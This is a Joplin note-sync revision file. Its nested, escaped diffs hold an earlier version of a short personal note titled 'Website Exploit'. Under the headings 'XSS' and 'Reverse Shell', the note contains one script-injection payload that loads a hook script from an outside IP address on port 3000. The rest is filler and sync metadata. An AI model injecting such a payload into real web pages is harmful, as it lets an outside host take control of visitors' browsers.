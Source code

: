 id: ca8bbb645d2542508bd947ed803f6e62
parent_id: 
item_type: 1
item_id: 5336412b58f84927bad0c0ec9e7da48b
item_updated_time: 1646016697124
title_diff: "[{\"diffs\":[[1,\"38c7f691acba46a59f668cc5d0a2d789\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 38c7f691acba46a59f668cc5d0a2d789\\\r\\\nparent_id: \\\r\\\nitem_type: 1\\\r\\\nitem_id: 1094d9f035074e3a8ef344a61a88cf5e\\\r\\\nitem_updated_time: 1643075445873\\\r\\\ntitle_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"Website Exploit\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":15}]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"# XSS\\\\\\\\\\\\\n\\\\\\\\\\\\\n## Reverse Shell\\\\\\\\\\\\\n\\\\\\\\\\\\\n> <script src=\\\\\\\\\\\\\\\"http://172.17.15.118:3000/hook.js\\\\\\\\\\\\\\\"></script>\\\\\\\\\\\\\n\\\\\\\\\\\\\ndfgdfg\\\\\\\\\\\\\n\\\\\\\\\\\\\ndfg\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":97}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{\\\"id\\\":\\\"1094d9f035074e3a8ef344a61a88cf5e\\\",\\\"parent_id\\\":\\\"8e7bd5349cf3494986eccd0619b576c9\\\",\\\"latitude\\\":\\\"0.00000000\\\",\\\"longitude\\\":\\\"0.00000000\\\",\\\"altitude\\\":\\\"0.0000\\\",\\\"author\\\":\\\"\\\",\\\"source_url\\\":\\\"\\\",\\\"is_todo\\\":0,\\\"todo_due\\\":0,\\\"todo_completed\\\":0,\\\"source\\\":\\\"joplin-desktop\\\",\\\"source_application\\\":\\\"net.cozic.joplin-desktop\\\",\\\"application_data\\\":\\\"\\\",\\\"order\\\":0,\\\"markup_language\\\":1,\\\"is_shared\\\":0,\\\"share_id\\\":\\\"\\\",\\\"conflict_original_id\\\":\\\"\\\",\\\"master_key_id\\\":\\\"\\\"},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-25T01:57:04.678Z\\\r\\\ncreated_time: 2022-01-25T01:57:04.678Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1077}]"
metadata_diff: {"new":{"id":"5336412b58f84927bad0c0ec9e7da48b","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016697113,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.645Z
created_time: 2022-02-28T02:54:22.645Z
type_: 13